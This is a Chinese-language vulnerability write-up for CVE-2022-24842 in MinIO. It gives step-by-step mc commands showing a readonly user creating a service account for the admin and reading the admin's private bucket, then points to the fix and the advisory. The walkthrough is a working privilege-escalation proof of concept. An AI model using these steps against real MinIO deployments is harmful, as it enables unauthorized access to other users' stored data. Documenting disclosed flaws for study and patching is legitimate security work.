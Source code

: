 # CVE-2022-24842 minio privilege escalation

## 漏洞信息
- 漏洞类型：权限提升
- 漏洞版本：RELEASE.2022-04-12T06-55-35Z to RELEASE.2022-04-12T06-55-35Z(exclude)
- 漏洞简介：普通用户可以为包括管理员在内的其他用户创建子账号，通过子账号获取权限

## repo介绍
minio是一个提供存储桶功能的服务器，目前在github上已有33k个star

## 漏洞分析
这里配置了`RELEASE.2022-04-09T15-09-52Z`版本的minio服务，使用下面的[mc](https://docs.min.io/docs/minio-client-quickstart-guide.html)指令进行复现。首先使用管理员账户创建一个名为`foo`的普通用户代表攻击者，权限设置为`readonly`
```yaml
mc admin user add localadmin foo foobar123 #创建用户
mc admin policy set localadmin readonly user=foo #设置为只读
```
一个名为`foo`的普通用户被创建了
![image](images/1.png)
然后使用这个用户创建一个`host`
```yaml
mc config host add localfoo  http://localhost:9000  foo foobar123 #创建host
mc config host ls #列出所有的host
```
显示成功添加
![image](images/2.png)
然后使用这个`host`为管理员添加一个子用户
```yaml
mc admin user svcacct add localfoo minio 
```
显示出随机生成的用户名和密码
![image](images/3.png)
同时管理界面可以看到管理员子用户的记录
![image](images/4.png)
用这个账号创建一个`host`
```yaml
mc config host add localevil http://127.0.0.1:9000 QZ4RUZHYWC548EKQ678Z bRHLiBlnpY+Pc5BRqYEWRsHMklByop+fSOl4w15M
```
显示创建成功
![image](images/5.png)
使用这个`host`访问admin私有的存储桶
![image](images/6.png)
显示访问成功
```yaml
$ mc ls  localevil 
[2022-05-06 11:56:15 CST]     0B test/
$ mc ls  localadmin
[2022-05-06 11:56:15 CST]     0B test/
```
## 修复方式
在[cmd/admin-handlers-users.go](https://github.com/minio/minio/blob/master/cmd/admin-handlers.go)增加了逻辑校验
![image](images/8.png)
## 参考链接
- https://github.com/minio/minio/security/advisories/GHSA-2j69-jjmg-534q